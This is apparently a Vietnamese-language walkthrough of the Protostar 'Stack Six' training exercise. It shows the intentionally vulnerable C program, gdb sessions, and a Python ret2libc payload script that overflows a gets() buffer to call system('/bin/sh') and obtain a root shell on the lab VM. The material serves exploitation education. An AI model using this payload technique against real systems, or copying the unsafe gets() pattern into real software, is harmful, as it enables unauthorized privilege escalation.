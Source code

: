# STACK SIX

## About

Stack6 looks at what happens when you have restrictions on the return address.

This level can be done in a couple of ways, such as finding the duplicate of the payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.

It is strongly suggested you experiment with multiple ways of getting your code to execute here.

This level is at /opt/protostar/bin/stack6

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Solutions

`STACK SIX` muốn chúng ta xem xét về cách vượt qua giới hạn khi mà địa chỉ trả về bị giới hạn. Cụ thể hơn là cách khai thác ret2libc.

Đoạn code sau:

```
  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }
```

if((ret & 0xbf000000) == 0xbf000000)

```
Giả sử ret = 0xbf777777
	     ret & 0xbf000000

	     0xbf777777 
           & 0xbf000000
	     __________
             0xbf000000 <-- luôn bằng 0xbf000000
```

Đoạn code này có khả năng chặn mọi địa chỉ trả về mà ta cố ghi đè vào EIP nếu như địa chỉ đó nằm trong khoảng từ `0xbf000000` đến `0xbfffffff`.

```
root@protostar:/opt/protostar/bin# gdb -q ./stack6
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) start
Temporary breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
Starting program: /opt/protostar/bin/stack6

Temporary breakpoint 1, main (argc=1, argv=0xbffffd54) at stack6/stack6.c:27
27      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) info proc map
process 1984
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb)
```

Đoan địa chỉ từ `0xbf000000` đến `0xbfffffff` là stack -> không thể ghi đè shellcode lên stack rồi return lại để thực thi shellcode như `STACK FIVE`.

Thử thách này để có thể thực thi được shell ta sẽ sử dụng phương pháp ret2libc.
Đầu tiên là tìm lượng padding cần thiết để flow được vào EIP.

```
(gdb) c
Continuing.
input path please: AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()       <-- 'TTTT'    76 ký tự
(gdb)
```

Sau đó là tìm địa chỉ của system() và exit() và địa chỉ của chuỗi `/bin/sh`:

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
(gdb) find 0xb7e97000, 0xb7fd9000, "/bin/sh"
0xb7fba23f
1 pattern found.
(gdb) x/s 0xb7fba23f
0xb7fba23f:      "KIND in __gen_tempname\""
(gdb)
```

Địa chỉ của chuỗi `/bin/sh` ta tìm được khi kiểm tra lại không chứa chuỗi ta cần tìm.

Vì vậy ta sẽ dùng cách khác để tìm `/bin/sh`:

```
root@protostar:/opt/protostar/bin# strings -tx /lib/libc-2.11.2.so | grep /bin/sh
 11f3bf /bin/sh             <-- offset của /bin/sh so với địa chỉ bắt đầu của libc
 
 Địa chỉ của '/bin/sh' = Địa chỉ bắt đầu libc + 0x11f3bf
 0xb7fb63bf = 0xb7e97000 + 0x11f3bf
```

Payload của chúng ta bây giờ là 

`payload = "A" * 76 + addr_system + addr_exit + addr_shellcode`

File exp.py

```
import struct
pd = "A" * 76
sysadd = struct.pack("I", 0xb7ecffb0)
exitadd = struct.pack("I", 0xb7ec60c0)
binadd = struct.pack("I", 0xb7fb63bf)
payload = pd + sysadd + exitadd + binadd
print payload
```

Done!

```
root@protostar:/opt/protostar/bin$ (python exp.py; cat) | ./stack6
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP���RRRRSSSSTTTT����`췿c��
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
ls
final0	format0  format3  heap1  net0  net3    stack1  stack4  stack7
final1	format1  format4  heap2  net1  net4    stack2  stack5
final2	format2  heap0	  heap3  net2  stack0  stack3  stack6
```

## Documents

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>


